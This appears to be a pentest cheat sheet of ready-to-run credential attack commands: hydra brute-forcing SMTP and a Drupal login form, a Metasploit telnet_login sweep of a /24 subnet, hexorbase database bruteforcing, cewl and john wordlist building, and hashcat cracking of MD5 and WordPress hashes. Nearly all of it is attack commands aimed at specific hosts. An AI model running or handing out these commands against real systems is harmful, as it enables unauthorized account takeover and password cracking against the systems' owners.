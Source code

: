 

## SMTP brute force
```
hydra -s 25 -v -V -l root@ucal.local -P /usr/share/wordlists/rockyou.txt -t 1 -w 20 -f 192.168.29.55 smtp

-l LOGIN name
-P load several passwords from FILE
-s port
-v verbose mode
-V show login+pass combination for each attempt
-t run TASKS number of connects in parallel
-w waittime for responses (32s) / between connects per thread
-f exit after the first found login/password pair
```

## Telnet bruteforce
```
use auxiliary/scanner/telnet/telnet_login
msf auxiliary(telnet_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf auxiliary(telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(telnet_login) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(telnet_login) > set THREADS 254
THREADS => 254
msf auxiliary(telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(telnet_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(telnet_login) > run

msf auxiliary(telnet_login) > sessions -l  // to see the sessions that succeded
```

## MySql, Oracle, PostgreSQL, SQLlite, MS-Sql bruteforcer and database browser
```
hexorbase
```

## Generate a wordlist from a webpage
```
cewl www.megacorpone.com -m 6 -w /root/newfilelist.txt 2>/dev/null
```

## Mangle/permutate a wordlist with john
```
john --wordlist=cewlgeneratedwordlist.txt --rules --stdout > megamangled.txt
```

## Drupal bruteforce attack
```
site="192.168.230.147"
id=$(curl -s http://$site/user/|grep "form_build_id" |cut -d"\"" -f6)
hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt $site http-form-post "/?q=user/:name=^USER^&pass=^PASS^&form_id=user_login&form_build_id="$id":Sorry" -V
```

## Crack MD5 with hashcat and wordlist. a=0 is straight attack
```
oclHashcat64.exe -m 0 -a 0 C:\Users\Cristi\Downloads\hashuri.txt F:\wordlist\realuniq.lst
oclHashcat64.exe -m 0 -pw-max=8 C:\Users\Cristi\Downloads\hashuri.txt F:\wordlist\realuniq.lst
```

# Brute force Wordpress (PHPASS)
```
cudahashcat64.exe -m 400 -a 3 hashfile wordlist
```
